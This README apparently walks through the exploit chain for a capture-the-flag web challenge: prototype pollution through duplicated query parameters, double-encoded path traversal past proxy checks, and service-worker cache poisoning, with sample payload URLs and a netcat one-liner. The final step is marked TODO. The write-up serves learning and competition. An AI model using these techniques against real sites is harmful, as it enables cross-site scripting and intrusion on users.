





# Under Construction

This challenge involves multiple gadgets, so I'll briefly outline the full exploit chain:

1. The user-provided query string is "safely" JSON reflected in a `<script>` tag.
2. This JSON is then retrieved and merged with a default config ([initDefaultData](./src/challenge/build/src/utils.js)) using the [deepMerge](./src/challenge/build/src/utils.js) function.
3. Even if the [deepMerge](./src/challenge/build/src/utils.js) function verifies `__proto__` and `constructor`, it is possible to get a prototype pollution by providing `?debugLevel=__proto__`. Then, to control what is going to be written into proto, we need to abuse that JS `new URLSearchParams.prototype.get` takes the first param occurrence, while PHP `json_encode` takes the last one. For example: `?debugLevel=__proto__&debugLevel[polluted]=true`.
4. Thanks to this prototype pollution, it is possible to pollute the fetch options in [main.js](./src/challenge/build/src/utils.js).
5. Before diving further into the prototype pollution, several other gadgets must be found:
    - The [sw.js](./src/challenge/apache/sw.js) caches everything under `/c/static`.
    - The [security.lua](./src/challenge/haproxy/security.lua) decodes the path and overwrites the current path if no `..` has been found.
    - The `location /c/` directive of [nginx.conf](./src/challenge/nginx/nginx.conf) decodes the path one more time when doing `rewrite ^/c/(.*)$ /$1 break;`.
    - Finally, the [sw.js](./src/challenge/apache/sw.js) recreates a `Response` object using only `res.headers` and `res.body` before caching it.
6. Thanks to the previously listed gadgets, several things can be done:
    - Bypassing the `..` protection by encoding it twice.
    - Accessing `/c/static/xss/%252E%252E%2F%252E%252E%2Findex.php` will return the same page as `/c/`.
    - We can force the service worker to cache non-`200 OK` responses like `206 Partial Content` :)
7. At this point, by:
    - Registering the service worker on `/c/`.
    - Going to `/c/?debugLevel=__proto__&debugLevel[headers][Range]=bytes=100-200&debugLevel[loggingPath]=/c/static/xss/%25252E%25252E%252F%25252E%25252E%252Findex.php%23` (`%23` at the end is required to remove any extra get params in the cache key) to force the `206 Partial Content` to be cached.
    - Then, going to `/c/static/xss/%252E%252E%2F%252E%252E%2Findex.php`.
    - You should see something like:



8. Now, you need to find a way to control HTML output. This can be done by slicing the response at the beginning of the user input in the JSON (you won't be able to close any tag due to `json_encode`).
9. TODO

The whole exploitation script is available in the [solve](./solve/) folder. If you want to run it quickly, you can use the following one-liner:

```bash
echo "http://mizu.re:8001/ctf-solutions/heroCTFv6-ac0247d4ebdc9b/index.html?start#http://underconstruction_web:8000" | nc localhost 55555
```





